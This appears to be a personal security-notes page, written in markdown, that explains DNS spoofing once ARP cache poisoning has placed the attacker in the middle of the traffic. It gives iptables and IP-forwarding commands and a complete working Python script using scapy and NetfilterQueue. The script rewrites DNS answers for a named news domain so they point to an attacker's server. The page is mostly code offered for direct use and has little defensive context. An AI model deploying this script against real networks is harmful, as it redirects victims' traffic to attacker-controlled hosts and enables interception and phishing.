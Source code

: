```yaml
---
title: "DNS spoofing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can spoof DNS answers, by modifying the rdata field in the DNS Response request packet.

After spoofing the rdata field will contain a spoofed ip address of a attacker server instead of the original servers IP address.

For this we need to modify packets on the fly. With scapy alone this is not possible, we need to use NetfilterQueue.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://bxg7.github.io/owned/arp/arp_cache_poisoning/

```Shell
echo '1' > /proc/sys/net/ipv4/ip_forward
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```Shell
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

```python
import netfilterqueue
from scapy.all import IP
import scapy.all as scapy


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.DNSRR):
        qname = scapy_packet[scapy.DNSQR].qname
        if "nrc.nl" in qname:
            print("[+] Spoofing target")
            answer = scapy.DNSRR(rrname=qname, rdata="192.168.178.12")
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len

            packet.set_payload(str(scapy_packet))

    packet.accept()



queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
